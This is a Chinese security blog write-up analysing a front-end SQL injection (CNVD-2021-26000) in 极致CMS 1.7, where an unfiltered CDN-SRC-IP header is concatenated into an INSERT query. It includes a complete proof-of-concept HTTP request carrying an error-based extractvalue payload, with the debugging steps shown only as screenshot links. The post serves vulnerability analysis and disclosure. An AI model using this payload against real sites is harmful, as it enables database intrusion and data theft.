@Author：Y4tacker

@Time：2021/5/12

# 极致CMS1.7前台存在SQL注入漏洞

今日CNVD爆出极致CMS前台存在SQL注入漏洞（CNVD-2021-26000），有个兄弟催我分析，那我就分析一次吧，首先标题说了在前台，那很显然我们要缩小范围，根据目录结构，不难得到前台文件在Home目录下吧



在分析之前我们得知道一个东西，在极致CMS当中对于接收的参数是通过类似下面的函数

```
$w['body'] = $this->frparam('body',1,'','POST');
```

我们跟进这个函数，获取参数传入`format_param`



跟进这个函数，不难得到过滤的很严格，因此我也不打算绕过了



接下来，好吧我挣扎一天了，断断续续的终于找到了，帅气的我不解释

最终找到了一个神奇的地方`Home/c/MessageController.php`，在index函数当中



获取IP，调用add函数



我们来看这个getIP函数，妥妥的无过滤，这个对应文件头是`CDN-SRC-IP`



接下来我们进入代码分析，首先给出我的POC

```php
POST /message/index.html?XDEBUG_SESSION_START=14451 HTTP/1.1
Host: y4tacker.top
Content-Length: 20
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.104 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
CDN-SRC-IP:2'and extractvalue(1,concat(0x5c,(select database()),0x5c)) and '1'='1
Cookie: csrf_c65ac5=fb408103; PHPSESSID=8r5l9qe20eigmokooigec4e71i
Connection: close

tid=4&user=1&title=1
```

接下来配合Xdebug我们开始跟进吧，首先看一眼，我们的参数确认没过率



清除值为空的参数



接下来通过join不难看出简简单单，直接拼接起来了



直接拼接语句无过滤，easy，既然是insert，自然是报错注入一把梭啦



分析完毕，看看结果吧

